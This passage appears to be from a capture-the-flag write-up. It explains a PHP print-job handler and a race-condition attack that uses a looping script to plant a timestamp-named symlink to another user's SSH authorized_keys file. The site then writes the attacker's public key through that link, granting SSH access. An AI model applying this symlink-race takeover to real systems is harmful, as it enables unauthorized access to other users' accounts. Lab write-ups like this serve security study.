 ```
                        }                                                                                            
                        catch(Exception $error)           
                        {                                 
                                $error="Can't connect to printer.";
                                unlink("/var/www/jobs/".$file);
                        }                                 
                }                                         
                else                                      
                {                                                                                                    
                        $error="Couldn't find printer.";  
                }                                         
        }                                                 
```

We can see that it binds the current date/time in the format Y-m-d_H:i:s to a variable $file, puts the contents of whatever we put in the Description field on the website into the file, grabs the IP and Port from the jobs table in the database Quick (which we set when we created the printer on the website) and then gets the contents of the file it created (named Y-m-d_H:i:s) and sends them to the printer. 

PHP inherently doesn't follow symlinks, so we can't send the contents of a file to ourselves. However, the really interesting part is that it's placing the contents of the Description we entered into the file. We can use this to overwrite srvadm's authorized_keys file!

To avoid having to format the date and time in bash, I just used a simple PHP script:

filecreate.php:
```
<?php
$file = date("Y-m-d_H:i:s");
system('ln -s /home/srvadm/.ssh/authorized_keys '  . $file);

?>
```

Now, we can create a ssh key for ourselves on our local machine:

```
ssh-keygen -t rsa

cat id_rsa.pub
```

We need to copy our id_rsa.pub key and put it in the description field. Now, to make sure that we're catching the right symlink at the right time, we can move our php file to the /var/www/jobs folder, and put it on a loop:

```
for i in $(seq 0 100);do php filecreate.php;done
```

Now, we need to quickly hit the Print button on the website, with our id_rsa.pub key in the Description, and either a Python3 script up to catch the request or nc. We should see our key pop up on our listener. If so, the exploit has completed succesfully!
